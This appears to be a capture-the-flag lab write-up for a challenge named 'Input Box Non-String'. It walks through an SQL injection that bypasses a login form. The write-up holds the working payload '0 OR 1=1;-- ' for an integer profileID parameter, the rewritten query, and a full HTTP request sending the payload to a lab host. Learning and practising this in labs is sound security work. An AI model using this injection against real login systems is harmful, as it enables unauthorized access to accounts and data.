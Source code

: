 # Challenge 1: Input Box Non-String

![Pasted image 20210803154811](Pasted%20image%2020210803154811.png)

This challenge is comprised of a login form asking for a user ID and a password. Since the title of the challenge is "Input Box Non-String," it appears the user ID parameter is the target parameter and that it probably is an integer on the backend.

Looking further at the HTMl source of the form, it appears that it sends a GET request to the URI `/sesqli1/login` with the query parameters `profileID` and `password`. The user ID is of type text, although on the backend it is treated like an integer.

The backend SQL query probably looks something like this:

```sql
SELECT profileID FROM profiles WHERE profileID = $profileID AND password = '$PASSWORD';
```

and the return of one column results in the application authenticating the user.

The injection for ProfileID looks like this:

```txt
0 OR 1=1;-- 
```

resulting in the query:

```sql
SELECT profileID FROM profiles WHERE profileID = 0 OR 1=1;--  AND password = '$PASSWORD';
```

HTTP request:

```http
GET /sesqli1/login?profileID=0+OR+1=1--%20&password=pass HTTP/1.1
Host: 10.10.240.237:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.10.240.237:5000/sesqli1/login?next=http%3A%2F%2F10.10.240.237%3A5000%2Fsesqli1%2Fhome
Cookie: session=eyJtYWluYXBwX3F1ZXJ5Ijp0cnVlfQ.YQmdGw.Jql5u251EzgC1eOfYh1kZWd882c
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

![Pasted image 20210803160414](Pasted%20image%2020210803160414.png)
